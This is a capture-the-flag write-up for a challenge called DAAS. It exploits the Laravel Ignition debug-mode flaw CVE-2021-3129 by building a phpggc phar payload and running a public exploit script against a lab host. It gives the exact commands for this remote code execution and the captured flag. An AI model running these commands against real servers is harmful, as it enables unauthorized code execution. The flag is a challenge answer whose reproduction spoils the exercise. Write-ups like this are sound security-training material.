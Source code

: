 ## DAAS

> Solved by: Nigamelastic

* The hint for this challenge talks about being stuck in debug.
* Some research shows there is a CVE for this, and the Laravel version were working with is vulnerable.
* https://www.exploit-db.com/exploits/49424
* https://www.youtube.com/watch?v=gr8ZKQpYiug&

**CVE-2021-3129** : https://nvd.nist.gov/vuln/detail/CVE-2021-3129

* Find 

```
ip/_ignition/execute-solution
```

* For a laravel panel with error messages and stack trace. 

![](https://i.imgur.com/bwswVCZ.jpg)

* https://www.ambionics.io/blog/laravel-debug-rce
* As mentioned in the blog above i tried performing a post request but it gave me a 302 response
* but the above link mentions their github page and exploit which is
`https://github.com/ambionics/phpggc`
and 
`https://github.com/ambionics/laravel-exploits`

the idea is to get the phar file with ur custom command from 1st repo and then put the phar file into the exploit with specified url to run the exploit
**PS: for a linux command with spaces simply use** `"` 

* so for our case since we know the flag was found on the root directory and its name as 

```
flagM1AhS
```

* our phpggc command should be

```bash
php -d'phar.readonly=0' ./phpggc --phar phar -o /tmp/exploit.phar --fast-destruct monolog/rce1 system "cat /flagM1AhS"
```

* run that in the exploit as:

```bash
./laravel-ignition-rce.py http://165.227.234.7:31636/ /tmp/exploit.phar
```

* and we have the flag:

```
CHTB{wh3n_7h3_d3bu663r_7urn5_4641n57_7h3_d3bu6633}
```

